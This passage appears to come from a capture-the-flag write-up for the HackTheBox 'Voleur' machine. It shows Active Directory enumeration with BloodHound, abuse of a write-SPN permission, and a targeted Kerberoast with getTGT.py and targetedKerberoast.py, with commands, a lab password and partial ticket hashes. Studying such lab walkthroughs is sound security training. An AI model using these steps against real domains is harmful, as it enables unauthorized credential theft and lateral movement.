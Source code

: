 We can now open the file to view its contents. We get credentials for some interesting service accounts, a deleted account and some hints on how to proceed.

![alt text](assets/images/voleur/excel.png)

We can now run bloodhound from our machine to see what ACL's these users might have.

```
KRB5CCNAME=ryan.naylor.ccache faketime -f "+8h"  bloodhound-python -k -dc dc.voleur.htb -c all -d voleur.htb -u ryan.naylor -no-pass --auth-method kerberos -ns 10.10.11.76 --zip
```

Looking through the bloodhound data I try to find ACLs that affect the `svc_winrm` or any of the other users that have a higher support tech role. I found that the `svc_ldap` user for which we have credentials can change the SPN of the `svc_winrm` user which lets us perform a kerberoast attack.

![alt text](assets/images/voleur/writespn.png)
## Performing a Targeted Kerberoast 
To perform this attack we must first get a valid kerberos ticket for the `svc_ldap` user similar to what we did above we can use getTGT for this.

```
faketime -f "+8h" getTGT.py -dc-ip 10.10.11.76 voleur.htb/svc_ldap:M1XyC9pW7qT5Vn
```

Once we have the ticket exported we can then use the `targetedKerberroast.py` script to perform the kerberoast attack automatically. We can then save the hashes into a file and we can try cracking them with hashcat.

```
faketime -f "+8h" python3 ../administrator/targetedKerberoast/targetedKerberoast.py -v -d 'voleur.htb' -u 'svc_ldap' -k --no-pass --dc-host dc.voleur.htb
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (lacey.miller)
[+] Printing hash for (lacey.miller)
$krb5tgs$23$*lacey.miller$VOLEUR.HTB$voleur.htb/lacey.miller*
<SNIP>
[VERBOSE] SPN removed successfully for (lacey.miller)
[VERBOSE] SPN added successfully for (svc_winrm)
[+] Printing hash for (svc_winrm)
$krb5tgs$23$*svc_winrm$VOLEUR.HTB$voleur.htb/svc_winrm*
<SNIP>
[VERBOSE] SPN removed successfully for (svc_winrm)
```

